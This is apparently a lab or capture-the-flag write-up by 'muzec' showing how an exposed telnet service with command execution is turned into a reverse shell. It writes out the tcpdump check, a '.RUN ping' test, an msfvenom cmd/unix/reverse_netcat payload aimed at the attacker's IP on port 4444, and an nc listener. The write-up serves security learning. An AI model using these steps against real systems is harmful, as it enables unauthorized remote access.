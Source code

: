 ```yaml
---
layout: default
title : muzec - Exploiting Telnet To Gain A Reverse Shell
---
```


![Image](https://imgur.com/XWDCe9o.png)

Let exploit some common vulnerablity in the telnet client and system server let hit it since we have the IP and port let connect to it with `telnet IP PORT` .

![Image](https://imgur.com/2pC4OU7.png)

Now let try to execute some commands.

![Image](https://imgur.com/cBtJMu3.png)

Hmmm we got nothing now let's check to see if what we're typing is being executed as a system command.

Let start up a tcpdump listener on our machine.

`sudo tcpdump ip proto \\icmp -i tun0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

![Image](https://imgur.com/OPLQgBt.png)

Now let try to ping our IP on the telnet server and check our tcpdump listener.

`.RUN ping Local-IP -c 1`

![Image](https://imgur.com/wzZKY8p.png)

Cool we are able to execute system commands since we are able to ping our local IP now let get reverse shell let generate a reverse shell code with msfvenom.

`msfvenom -p cmd/unix/reverse_netcat lhost=Local-IP lport=4444 R`

![Image](https://imgur.com/gKNDObi.png)

now let start our ncat listener `nc -nvlp 4444` and run the reverse shell code on the telnet client.

![Image](https://imgur.com/I1WSAt3.png)

And we have shell back to our terminal.

![Image](https://imgur.com/0579uEX.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

